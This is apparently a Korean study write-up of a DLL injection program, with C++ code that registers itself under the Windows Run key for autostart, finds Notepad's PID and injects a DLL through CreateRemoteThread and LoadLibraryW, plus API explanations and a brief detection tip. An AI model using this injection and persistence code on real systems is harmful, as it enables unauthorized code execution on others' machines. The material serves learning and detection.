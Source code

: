 # DLL Injection 공부

출처: https://nameng.tistory.com/117

https://github.com/gud425/DLL_Injection 백업용 github

# DLL_Injection

> made by nam

메모장이 켜질때마다 DLL을 삽입하여 내가 원하는 작동을 하도록 실행하는 프로그램

## 소스해석

### DLL 소스

```cpp
DWORD WINAPI ThreadProc(LPVOID lparm) {
    int a=0, b=0, c=0;
    int flag = 0,return_val;
    while (1) {
        if (flag)
            break;
        for (int i = 0; i < (a * b * c) + 1; i++) {
            return_val=MessageBox(NULL, L"hacked by nam", L"LOL", MB_YESNOCANCEL|MB_ICONWARNING);
            if (return_val == IDYES)
                a++;
            else if (return_val == IDNO)
                b++;
            else if (return_val == IDCANCEL)
                c++;

            if (a == 4&&b == 2&&c == 5) {
                flag = 1;
                break;
            }
        }

    }
    return 0;
}
```

messagebox에서 나오는 버튼 3개를 각각 4 2 5번 누르면 꺼지게 동작

### 메인소스

```cpp
void register_program() {
	HKEY  m_hRegsKey;
	const WCHAR* regItemName = L"dll_injection_by_nam";
	const WCHAR* val = L"C:\\Users\\nam\\source\\repos\\dll_injection\\x64\\Debug\\dll_injection.exe";
	RegCreateKey(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &m_hRegsKey);
	RegSetValueEx(m_hRegsKey, regItemName, NULL, REG_SZ,(const byte*)val, 134);//lstrlen(val)*2
	RegCloseKey(m_hRegsKey);
}
```

SOFTWARE\Microsoft\Windows\CurrentVersion\Run 에 추가하여 컴퓨터 시작될때마다 자동으로 실행되게 만드는 함수



```cpp
DWORD32 get_pid(wstring proc_name) {

	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
	pe32.dwSize = sizeof(PROCESSENTRY32);
	Process32First(hSnapshot, &pe32);
	do {
		wstring num = pe32.szExeFile;
		if (!wcscmp(num.c_str(), proc_name.c_str())) {
			return pe32.th32ProcessID;
		}

	} while (Process32Next(hSnapshot, &pe32));
	return 0;
}
```

구할 프로세스의 이름을 인자로 주면 PID를 리턴하는 함수



```cpp
BOOL dll_inject(DWORD hwPID, LPCTSTR DllPath) {
	HANDLE hProcess = NULL;
	HANDLE hThread = NULL; 
	HMODULE hMod = NULL; 
	LPVOID pRemoteBuf = NULL; 
	LPTHREAD_START_ROUTINE pThreadProc; 
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, hwPID);
	
	DWORD dwBufSize = (DWORD)(_tcslen(DllPath) + 1) * sizeof(TCHAR);
	
	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)DllPath, dwBufSize, NULL); 
	hMod = GetModuleHandle(TEXT("kernel32.dll"));
	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");
	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
	WaitForSingleObject(hThread, INFINITE); 
	CloseHandle(hThread); 
	CloseHandle(hProcess); 
	return 1; 
}
```

DLL 인젝션의 핵심 부분이다.

1. **OpenProcess**(**dwDesiredAccess**:접근권한, **bInheritHandle**:TRUE면 핸들을 상속, FALSE면 상속X, **dwProcessId**:프로세스 식별자(PID)) 리턴값으로 대상 프로세스의 핸들을 구한다.
2. **VirtualAllocEx**(**hProcess**:인젝션할 프로세스의 핸들, **lpAddress**:할당할 주소로 NULL을 넣으면 자동, **dwSize**:할당할 메모리의 크기(byte), **flAllocationType**:할당유형-전체메모리 내에 할당하려면 MEM_COMMIT(0x1000), **flProtect**:할당된페이지에 대한 권한)
   리턴값으로 대상 프로세스에 LPVOID형의 메모리 공간을 확보해 DLL의 경로를 넣을 공간을 만든다.
3. **WriteProcessMemory**(**hProcess**:프로세스의 핸들, **lpBaseAddress**:DLL절대경로를 작성할 주소, **lpBaseAddress**:DLL의 절대경로가 작성된주소, **nSize**:Write할 바이트 크기(DLL의 절대경로의 길이보다 크게 지정), **lpNumberOfBytesWritten**:Write가 잘 되었는지 작성한 바이트를 저장하는 주소)
4. **GetModuleHandle**(TEXT("kernel32.dll"));
5. **GetProcAddress**(hMod, "LoadLibraryW");
   LoadLibrary는 kernel32.dll에 존재하므로 kernel32.dll의 핸들을 얻고 LoadLibrary의 주소를 구한다.
6. **CreateRemoteThread**(**hProcess**:프로세스의 핸들, **lpThreadAttributes**:보안속성-특별한 속성이 없다면 NULL, **dwStackSize**:스택의 초기사이즈(byte)-0을 넣으면 실행파일의 default size를 사용, **lpStartAddress**:스레드의 시작주소, **lpParamete**r:스레드가 실행할 함수의 파라미터, **dwCreationFlags** : 0을 넣으면 스레드 생성직후에 실행, **lpThreadId** : 스레드식별자(TID)를 저장하기위한 주소)





## 탐지방법

CreateRemoteThread의 인자중 lpStartAddress의 인자로 GetProcAddress로 얻어온 LoadLibrary주소가 들어가게 되는데 이부분을 탐지하면 된다.